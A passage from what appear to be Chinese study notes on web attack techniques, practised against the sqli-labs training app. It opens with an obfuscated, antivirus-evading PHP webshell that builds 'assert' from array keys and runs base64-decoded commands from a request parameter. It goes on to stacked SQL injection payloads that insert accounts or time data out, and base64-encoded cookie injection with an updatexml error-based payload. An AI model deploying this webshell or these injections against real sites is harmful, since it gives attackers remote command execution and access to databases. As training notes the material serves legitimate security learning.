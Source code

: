 免杀shell：

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['cmd']));?>"
```

## 6. SQL注入进阶

### ==堆叠注入==

https://www.cnblogs.com/backlion/p/9721687.html

stacked injections（堆叠注入）就是多条sql语句一起执行。在mysql 中，一条语句结尾加`;`表示语句结束，多语句之间以分号隔开。堆叠注入就是利用这个特点，在第二个SQL语句中构造自己要执行的语句。

比如：

```mysql
mysql> select * from users; select * from emails;
```

将堆叠注入运用于创建用户，以此迂回得到自定义的账户密码。但是前提是网站的管理员必须是高权限才能完全创建用户。也可以使用update更新管理员用户密码。

`id=1';insert into users(id,username,password) values ( 39, 'less38 ', 'hello ')--+`

当网站使用PDO技术（一种防护手段）执行SQL语句时，可以执行多语句，不过这样通常不能直接得到注入结果，因为PDO只会返回第一条SQL语句执行的结果， 所以在第二条语句中可以用update更新数据或者使用时间盲注获取数据。

`id=1';select if(substr(user(),1,1)='r', sleep(3), 1)--+`

### 加解密编码注入

某些注入点会对参数值进行编码。比如下面的cookie进行了base64编码：

```
GET /Less-21/index.php HTTP/1.1
Host: 10.1.1.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://10.1.1.133/Less-21/index.php
Connection: close
Cookie: uname=YWRtaW4%3D
Upgrade-Insecure-Requests: 1
```

`YWRtaW4%3D`是一个base64加密的字符串，其中%3D是编码中的`=`符号，把他发送到编码模块当中解密，得到明文admin。

所以构造好注入语句后，也需要进行编码，也就是说`admin' and 1=1`加密之后的值是`YWRtaW4nIGFuZCAxPTE=`。

而获取数据库名称的报错盲注的语句`admin' or updatexml(1,concat(0x7e,(database())),0) or '`加密后cookie值`Cookie: uname=YWRtaW4nIG9yIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChkYXRhYmFzZSgpKSksMCkgb3IgJwo=`

![](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728092746776.png)

### 二次注入（绕过转义）
